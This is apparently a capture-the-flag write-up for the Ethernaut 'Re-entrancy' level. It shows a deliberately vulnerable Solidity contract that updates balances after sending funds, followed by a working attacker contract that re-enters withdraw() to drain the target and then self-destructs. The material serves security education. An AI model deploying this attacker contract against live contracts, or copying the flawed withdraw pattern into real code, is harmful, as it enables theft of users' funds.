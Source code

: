  # Type - Beyond the console

 ***

In order to prevent re-entrancy attacks when moving funds out of your contract, use the Checks-Effects-Interactions pattern being aware that call will only return false without interrupting the execution flow. Solutions such as ReentrancyGuard or PullPayment can also be used.

transfer and send are no longer recommended solutions as they can potentially break contracts after the Istanbul hard fork Source 1 Source 2.

Always assume that the receiver of the funds you are sending can be another contract, not just a regular address. Hence, it can execute code in its payable fallback method and re-enter your contract, possibly messing up your state/logic.

Re-entrancy is a common attack. You should always be prepared for it!

 
The DAO Hack
The famous DAO hack used reentrancy to extract a huge amount of ether from the victim contract. See 15 lines of code that could have prevented TheDAO Hack.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

****

# Solution

1. Get a new instance
2. Taking a close look in the contract we can exploit the withdraw function
3. The objective here would be to first donate 1eth to ourselves and call the withdraw function which triggers a fallback to allow the reentrancy attack, and we can call the withdraw function until the balance is greater than 0
4. We make a new contract to make the exploit, and a function that calls the donate and then withdraw function , after which a fallback function gets triggered and the loop continues

```
contract Hack {
  Reentrance private target;

  constructor(address payable  _target){
    target = Reentrance(_target);
  } 

  function attack() external payable{
    target.donate{value: 1e18}(address(this));
    target.withdraw(1e18);

    require(address(target).balance ==0, "target balance >0");
    selfdestruct(payable(msg.sender));
  }

  receive() external payable {
    uint amount = min(1e18, address(target).balance);
    if( amount >0){
      target.withdraw(amount);
    }
    
   }

  function min(uint x, uint y) private  pure  returns(uint){
    return x <= y ? x : y ;
  }

}
```

****

 # Explanation

 Smart Contract Programmer  - [Ethernaut 10 - Re-entrancy](https://www.youtube.com/watch?v=K8AFyNiuTXs) 
